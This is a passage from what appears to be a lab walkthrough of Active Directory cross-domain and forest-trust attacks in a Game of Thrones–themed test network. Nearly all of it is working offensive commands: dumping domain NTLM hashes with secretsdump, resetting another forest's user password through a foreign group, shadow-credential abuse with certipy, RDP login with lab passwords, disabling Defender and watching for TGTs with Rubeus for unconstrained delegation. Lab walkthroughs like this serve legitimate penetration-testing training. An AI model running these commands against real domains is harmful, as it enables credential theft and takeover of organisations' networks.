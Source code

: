 - And now we can use our service ticket and connect with smbclient
```
export KRB5CCNAME=/workspace/trusts/trustfakeuser@sevenkingdoms.local@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
smbclient.py -k -no-pass trustfakeuser@kingslanding.sevenkingdoms.local
```

- or even dump secrets
`secretsdump -k -no-pass -just-dc-ntlm trustfakeuser@kingslanding.sevenkingdoms.local`


## Forest Trust (sevenkingdoms.local -> essos.local)
### Password reuse
- On a real environment this is really accurate. Dump the ntds of the domain you own and try to find the same users on the external forest domains.
- The lab didn’t have this behavior but it is really simple to exploit

### Foreign group and users
#### Sevenkingdoms to essos : group spys
-  Pick a user from the small council (by example petyer.baelish:@littlefinger@) and exploit with the spy group
```
net rpc password jorah.mormont -U sevenkingdoms.local/petyer.baelish%@littlefinger@ -S meereen.essos.local
Enter new password for jorah.mormont: <here we enter P@ssword123>
```

- And verify
`cme smb 192.168.56.12 -u jorah.mormont -p 'P@ssword123' -d essos.local`

- We can also to that with shadow credentials (but the auto will not work here, we will have to do that with two steps)
```
certipy shadow add -u petyer.baelish@sevenkingdoms.local -p '@littlefinger@' \
 -dc-ip 192.168.56.12 -target meereen.essos.local -account 'jorah.mormont'

certipy auth -pfx jorah.mormont.pfx -username jorah.mormont -domain essos.local -dc-ip 192.168.56.12
```

### Essos to sevenkingdoms : group accros_thenarrowsea
### Use unconstrained delegation
- From kingslanding we can rule the essos domain with unconstrained delegation
- We connect to kingslanding with rdp as an administrator
`xfreerdp /d:sevenkingdoms.local /u:cersei.lannister /p:'il0vejaime' /v:192.168.56.10 /size:80%  /cert-ignore`

- For more simplicity we will disable defender
- Now we launch rubeus.exe to wait for a TGT of the essos forest.

`.\Rubeus.exe monitor /filteruser:MEEREEN$ /interval:1`
